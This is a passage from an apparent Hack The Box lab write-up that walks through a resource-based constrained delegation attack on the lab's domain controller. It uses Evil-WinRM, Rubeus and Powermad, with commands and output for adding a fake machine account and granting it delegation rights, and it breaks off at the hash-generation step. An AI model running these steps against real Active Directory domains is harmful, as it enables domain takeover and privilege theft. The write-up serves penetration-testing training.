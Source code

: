 ```bash
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\temp> . .\Powermad.ps1
```

We create a temp directory in C:\ so we have all RWX (right,write,execute) rights.
We upload Rubeus.exe and Powermad.ps1
For further information on Powermad.ps1 visit [https://offsec.tools/tool/powermad](https://offsec.tools/tool/powermad).

Now we just follow the instructions found with bloodhound to execute the exploit and take over the DC.

* Step 1 (add-machine)

```bash
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
[+] Machine account FAKE-COMP01 added
```

* Step 2 (check if the machine has been created)

```bash
Get-ADComputer -identity FAKE-COMP01

DistinguishedName : CN=FAKE-COMP01,CN=Computers,DC=support,DC=htb
DNSHostName       : FAKE-COMP01.support.htb
Enabled           : True
Name              : FAKE-COMP01
ObjectClass       : computer
ObjectGUID        : 41388f07-9e13-4fe2-a4aa-76fce5e9d1b0
SamAccountName    : FAKE-COMP01$
SID               : S-1-5-21-1677581083-3380853377-188903654-5601
UserPrincipalName :
```

* Step 3 (grant the DC permission to delegate the fake machine)

```bash
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

* Step 4 (confirm step 3 worked)

```bash
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount


DistinguishedName                    : CN=DC,OU=Domain Controllers,DC=support,DC=htb
DNSHostName                          : dc.support.htb
Enabled                              : True
Name                                 : DC
ObjectClass                          : computer
ObjectGUID                           : afa13f1c-0399-4f7e-863f-e9c3b94c4127
PrincipalsAllowedToDelegateToAccount : {CN=FAKE-COMP01,CN=Computers,DC=support,DC=htb}
SamAccountName                       : DC$
SID                                  : S-1-5-21-1677581083-3380853377-188903654-1000
UserPrincipalName                    :
```
* Step 5 (generate an NTLM hash given a password for the fake machine)
